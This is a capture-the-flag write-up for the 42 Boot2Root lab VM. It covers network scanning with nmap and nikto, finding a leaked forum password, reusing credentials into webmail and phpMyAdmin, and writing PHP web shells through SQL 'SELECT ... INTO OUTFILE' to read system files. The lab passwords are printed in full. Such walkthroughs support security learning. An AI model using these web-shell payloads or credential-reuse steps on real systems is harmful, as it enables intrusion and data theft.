 # Boot2Root 42 Project - Write Up 1

## Step 1: find the VM's IP

BEFORE ANYTHING : when setting up your vm in network, set it to bridged adapter, select the wifi card in the section name and then, make sure you're also connected to a wifi

First, find your local ip so you scan it

```
on Windows :
>ipconfig
    Wireless LAN adapter Wi-Fi 2
        IPv4 Address. . . . . . . . . . . : 192.168.1.45
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.1.255

on Macs :
    Maxime je te laisse remplir ca
```

Now we know our local ip, so we'll scan it using nmap ans after a few minutes we end up with :

```
>nmap 192.168.1.0/24
...
    Nmap scan report for BornToSecHackMe-001.lan (192.168.1.74)
    Host is up (0.0031s latency).
    Not shown: 994 closed tcp ports (reset)
    PORT    STATE SERVICE
    21/tcp  open  ftp
    22/tcp  open  ssh
    80/tcp  open  http
    143/tcp open  imap
    443/tcp open  https
    993/tcp open  imaps
    MAC Address: DC:1B:A1:92:89:AC (Intel Corporate)
...
```

## Step 2: Use the port 443

Now that we know the ip of the vm all we need to do is to put it our browser to discover a simple web page asking to be hacked (cheeky page)

To do so, we'll use nikto by using
```
>perl nikto.pl -h 192.168.1.74 -p 443
...
    + OSVDB-3092: /forum/: This might be interesting.
    + OSVDB-3093: /webmail/src/read_body.php: SquirrelMail found
    + /phpmyadmin/: phpMyAdmin directory found
...
```
And now we can verify directly on our browser that yes, we have access to

    192.168.1.74/forum
    192.168.1.74/webmail
    192.168.1.74/phpmyadmin

## Step 3: Abuse the forum

first thing, we can see in the head that this forum is made using my little forum 2.3.4 an information usefull later.

But for now we'll go ont the forum and search for anything fishy, and something fishy we found on the topic "Problem login ?" where the user lmezard posted a log from a ssh connection.

And when you read the log you can find this line:

    Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2

which is lmezard's password on the forum

After loging in as them, the only new thing we get is a list of all the user registered on the forum and the User Area where we found their mail :

    laurie@borntosec.net

## Step 4: Webmail

Since we have laurie's mail we can login with the same password

And the first mail called "DB Access" contain with no surprise     

    Hey Laurie,

    You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

    Best regards.

## Step 5: PhpMyAdmin

As promised, the version of MLF is important now since we can see in the table  mlf2_userdata the hashed password of all the users.

But im too busy to care. Since we are root we can inject anything with SQL
and we have this https://www.informit.com/articles/article.aspx?p=1407358&seqNum=2

deux choses importantes:
1. https://192.168.1.74/forum/templates_c/.dummy doesn't cause any errors (/templates_c/.dummy is a file accessible in the git)
2. the principe of the sql request is to write in the templates_c directory in a new php file a php element executing a bash command

### Exploit 1:

    select "<?php $out = shell_exec('ls -laR /'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/ls.php";

Now https://192.168.1.74/forum/templates_c/ls.php display the result
and no surprise an easy to see LOOKATME folder is here so we just need to read what's inside the password file

### Exploit 2:

    select "<?php $out = shell_exec('cat /home/LOOKATME/password /'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/pogger.php";

and now https://192.168.1.74/forum/templates_c/pogger.php gives us

    lmezard:G!@M6f4Eatau{sF"
